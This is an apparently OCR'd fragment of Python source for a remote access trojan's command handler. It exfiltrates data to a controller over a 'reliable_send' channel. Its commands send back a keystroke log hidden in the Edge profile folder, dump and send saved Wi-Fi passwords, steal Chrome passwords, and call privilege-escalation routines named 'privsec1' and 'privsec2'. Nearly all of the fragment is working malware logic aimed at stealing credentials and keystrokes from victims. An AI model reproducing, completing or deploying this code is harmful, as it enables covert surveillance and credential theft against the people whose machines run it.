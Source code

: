 

        elif command == 'dump_keylogger':

                local_state_path = os.path.join(os.environ["USERPROFILE"],"AppData", "Local", "Microsoft", "Edge","User Data", "Default")
                direc="temp"
                dir=os.path.join(local_state_path,direc)

                hellfile=dir+"\\hellfile.txt"
                fn=open(hellfile,"r")
                reliable_send(fn.read())

                fn.close()

        #working but first need to stop the thread don't know how
        elif command == 'del_keylogger_file':
            dir=os. getcwd() 
            hellfile=dir+"\hellfile.txt"
            if os.path.exists(hellfile):
                print("yes")
                os.remove(hellfile)
            else:
                print(hellfile)
                print("No")

#to stop thread
        elif command == 'stop_keylogger':
            time.sleep(0.5)
            t1.terminate()
            print("Killed sucessfully")
            
        elif command == 'wifi_password':
            try:
                wifi_password()
                direc = os. getcwd()
                filename = '\Wifi_pass.txt'
                filename = direc+filename
                fn=open(filename,"r")
                reliable_send(fn.read())
                fn.close()
            except:
                pass

        elif command == 'chrome_pass_dump':
            chrome_pass()


        elif command == 'privsec1':
            try:
                priv1()
            except:
                pass



        elif command == 'privsec2':
            try:
                priv2()
            except:
                pass
